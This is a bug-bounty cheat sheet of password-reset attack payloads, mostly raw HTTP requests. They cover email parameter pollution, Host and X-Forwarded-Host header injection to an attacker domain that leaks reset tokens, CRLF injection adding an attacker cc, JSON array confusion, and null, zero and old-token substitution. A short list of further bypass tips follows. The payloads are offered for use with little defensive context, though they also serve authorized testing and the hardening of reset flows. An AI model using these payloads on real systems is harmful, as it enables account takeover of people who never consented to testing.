 **Include Your Email as 2nd parameter**

`POST /reset
...
...
email=victim@gmail.com&email=attacker@gmail.com`

**Bruteforce if numric**

`https://exaample.com/reset?token=$BRUTEFORCE`

**Use Your Token on Victims Email**

`POST /reset
...
...
email=victim@gmail.com&token=$YOUR-TOKEN$`

**Host Header Injection**

`POST /reset
Host: attacker.com
...
email=victim@gmail.com`

**HTML injection in Host Header**

`POST /reset
Host: attacker">.com
...
email=victim@gmail.com`

**X-Forwaded in Host**

`POST /reset
Host: website.com
X-Forwaded-Host: attacker.com
...
email=victim@gmail.com`

**CRLF in Reset**

`POST /reset
Host: attacker.com
...
...
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"`

**Leakage of Password reset in Referer Header**

`Referrer: https://website.com/reset?token=1234`

**Leaking Reset Token in Response Body**

**Using Companies Email**

`While inviting users into your account/organization, you can also try inviting company emails and add a 
new field "password": "example123". or "pass": "example123" in the request. you may end up resetting a
user password

Company emails can be found on target's GitHub Repos members or you can check on http://hunter.io. some users
have a feature to set a password for invited emails, so here we can try adding a pass parameter.

If successful, we can use those credentials to login into the account, SSO integrations, support panels,
etc #BugBountyTips`

**CRLF in URL**

`with CLRF: /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)`

**Json Array Confusion**

`{"email":["victim@mail.tld","atracker@mail.tld"]}`

**HTML injection in Email**

`HTML injection in email via parameters, cookie, etc > inject image > leak the  token`

**Remove token**

`http://example.com/reset?eamil=victims@gmail.com&token=`

**Change it to 0000**

`http://example.com/reset?eamil=victims@gmail.com&token=0000000000`

**Use Null Value**

`http://example.com/reset?eamil=victims@gmail.com&token=Null/nil`

**try an array of old tokens**

`http://example.com/reset?eamil=victims@gmail.com&token=[oldtoken1,oldtoken2]`

**try [victim@email.com](mailto:victim@email.com)&[attacker@email.com](mailto:attacker@email.com) use %20 or | as separators**

`POST /reset
Host: attacker.com
...
...
email=attacker@mail.tld%20victim@gmai.com
email=attacker@mail.tld|victim@gmai.com`

**SQLi bypass**

`try sqli bypass and wildcard or, %, *`

**Request Method / Content Type**

`change request method (get, put, post etc) and/or content type (xml<>json)`

**Response Manipulation**

`Replace bad response and replace with good one`

**Massive Token**

`http://example.com/reset?eamil=victims@gmail.com&token=1000000 long string`

**Crossdomain Token Usage**

`If a program has multiple domains using same underlying reset mechanism, reset token generated from one domain sometime 
works in another domain too.`

### **Other:**

- change 1 char at the begin/end to see if the token is evaluated
- use unicode char jutzu to spoof email address
- look for race conditions
- don't add the domain locu@
- try to register the same mail with different TLD (.eu,.net etc)
